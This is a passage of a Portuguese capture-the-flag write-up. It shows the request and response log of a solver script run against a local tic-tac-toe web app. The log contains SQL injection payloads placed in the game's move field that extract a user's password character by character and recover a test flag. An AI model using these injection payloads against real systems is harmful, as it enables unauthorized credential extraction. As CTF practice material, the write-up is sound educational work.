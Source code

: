 Obs: vou resumir as linhas aqui porque a saída é grande.

```
$ python solver.py 
==> REQUEST to http://localhost:5000/register
{'username': 'neptunianxxx715', 'password': 'neptunianpwdxxx715'}

RESPONSE: 200
# ... um monte de linhas

==> REQUEST to http://localhost:5000/newgame
{'None': 0}

RESPONSE: 200
{"game_key":"87228aac-decc-4911-be31-05c05aa78ca5"}

==> REQUEST to http://localhost:5000/game/87228aac-decc-4911-be31-05c05aa78ca5/move
{'position': '(select length(password) from users where id = 1)'}

RESPONSE: 400
invalid literal for int() with base 10: '(select length(password) from users where id = 1)'
==> REQUEST to http://localhost:5000/game/87228aac-decc-4911-be31-05c05aa78ca5/info
None

RESPONSE: 200
{"O":[],"X":[32],"game_id":7,"game_key":"87228aac-decc-4911-be31-05c05aa78ca5","winner":"?"}

==> REQUEST to http://localhost:5000/game/87228aac-decc-4911-be31-05c05aa78ca5/move
{'position': '(select ord(substring(password, 1, 1)) from users where id = 1)'}

==> REQUEST to http://localhost:5000/game/87228aac-decc-4911-be31-05c05aa78ca5/move
{'position': '(select ord(substring(password, 1, 1)) from users where id = 1)'}

RESPONSE: 400
invalid literal for int() with base 10: '(select ord(substring(password, 1, 1)) from users where id = 1)'
==> REQUEST to http://localhost:5000/game/87228aac-decc-4911-be31-05c05aa78ca5/move
{'position': '(select ord(substring(password, 2, 1)) from users where id = 1)'}

RESPONSE: 400
invalid literal for int() with base 10: '(select ord(substring(password, 2, 1)) from users where id = 1)'

# ... mais um bocadão de linhas

==> REQUEST to http://localhost:5000/game/87228aac-decc-4911-be31-05c05aa78ca5/info
None

RESPONSE: 200
{"O":[],"X":[32,89,109,104,104,89,50,116,55,90,109,120,104,90,49,57,119,89,88,74,104,88,51,82,108,99,51,82,108,99,51,48,75],"game_id":7,"game_key":"87228aac-decc-4911-be31-05c05aa78ca5","winner":"?"}

b'bhack{flag_para_testes}\n'
```
